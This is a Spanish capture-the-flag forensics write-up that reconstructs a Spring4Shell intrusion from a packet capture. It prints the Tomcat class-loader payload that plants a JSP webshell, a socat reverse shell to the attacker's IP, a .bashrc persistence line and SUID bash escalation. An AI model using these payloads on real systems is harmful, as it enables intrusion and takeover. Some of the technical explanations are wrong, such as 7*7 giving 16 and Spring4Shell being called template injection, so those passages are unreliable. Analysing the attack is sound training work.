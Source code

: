 # "Wrong Spooky Season"
-----------------------

Nos dan un archivo "zip" que se traduce en una captura "pccap". Este se abre con la contraseña "hackthebox" (nos la dan) Junto a una descripción 
del reto.

```
"Les dije que era muy pronto y no era la estacíon correcta para lanzar semejante web, pero me aseguraron que
darle esta temática seria suficiente para evitar que los fantasmas fueran a por nosotros. Estaba equivcado"

Ahora, hay una brecha de seguridad en la "Spooky Network" y necesito que encuentres que ha pasado. Analiza la 
red y descubre como entraron los fantasmas y que hicieron
```

Si abrimos la captura vemos un montón de tráfico entre estos dos sistemas: 
"192.168.1.180" (cliente) y "192.168.1.166" (servidor, aloja una web por el puerto 8080) 
Viendo estas IPs "192.168.1..." parece una LAN de Clase C (pequeñita, domestica).

Lo primero, hay mucho tráfico TCP, pero lo que nos interesa es el HTTP, o sea la interación por la web.

Cuando accedes a una web, le pides unos cuantos recursos como imagenes, codigo fuente y hoja de estilos que el navegador se encarga de colocar de 
una manera vistosa. 

Las primeras 30 peticiones son justo eso, así que las ignoraremos. Lo critico viene con las /POST (envió de datos/formularios)

Si seleccionamos un paquete /POST y le damos a "seguir tráfico TCP" podemos ver a la derecha todo el contenido.
Podemos copiarnos el html en un archivo "index.html" y hostearlo en un servidor para ver como se vería la web.

Solo tenemos un formulario ("Enter email adress"), asi que si ha habido un ataque sera ahí.
A /home manda una cadena "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="

No tengo ni idea de que es, asi que la busco en google y pone "Spring4Shell". La información que consigo es la
siguiente:
- Spring4Shell se parece en nombre a Log4Shell, y en efecto, ambas son vunls de java, en concreto esta afecta a "Spring Framework"  
- Dicho Framework utiliza "Spring Boot" que hace que los desarolladores puedan poner en marcha de manera rapida sus aplicaciones.  
- Por su esructura es muy similar a Flask en Python.  
- El asunto esque este framework utiliza "templates" (o sea como pasa con python) por lo que se da el cláscio STTI  

```"Tu te llamas" + ${nombre}``` 
El STTI accede a las clases y de ahí va escalando y moviendose hasta encontrar un modulo de ejecucion de comandos.

1. /home -> ```{"class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat":""}```  
Supongo que para comprobar si es inyectable, como el clasico {{7*7}} -> 16  

2. ```{"class.module.classLoader.resources.context.parent.pipeline.first.pattern":"%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i"}```  
Parece el contenido de una backdoor (programado en java).  

3. ```{"class.module.classLoader.resources.context.parent.pipeline.first.suffix":".jsp"}```  
Archivo de java para codigo web, en concreto para crear la backdoor.  

4. ```{"class.module.classLoader.resources.context.parent.pipeline.first.directory":"webapps/ROOT"}```  
Directorio donde va a poner la backdoor.  

5. ```{"class.module.classLoader.resources.context.parent.pipeline.first.prefix":"e4d1c32a56ca15b3"}```  
El nombre de dicha "backdoor.jsp"  

6. ```{"class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat":""}```  
7. ```{"class.module.classLoader.resources.context.parent.pipeline.first.pattern":""}```  
Supongo que serán para que se guarde o que e active no se.  

El resto son interacciones con esta backdoor:  
```
/GET /e4d1c32a56ca15b3.jsp?cmd=whoami
/GET /e4d1c32a56ca15b3.jsp?cmd=id
/GET /e4d1c32a56ca15b3.jsp?cmd=apt -y install socat  # instalar socat
/GET /e4d1c32a56ca15b3.jsp?cmd=socat TCP:192.168.1.180:1337 EXEC:bash  # mandale una shell a su IP con socat
```

Una vez hecho esto el atacante entró en el sistema, se acabo el flujo HTTP, asi que ahora tenemos que fijarnos en el TCP. 
Se pone a enumerar el sistema en busca de vulns ```id, cat /etc/passwd, groups, uname -r, find / -perm -u=s -type f 2>/dev/null```
Al final ```echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc``` para ganar persistencia que cada vez que alguien abra una consola se le mande a él.
```chmod +s /bin/bash``` hacer a la bash SUID 

Uno de los comandos que hace es este: ```echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null``` 
Que se traduce en la flag: ```HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}```
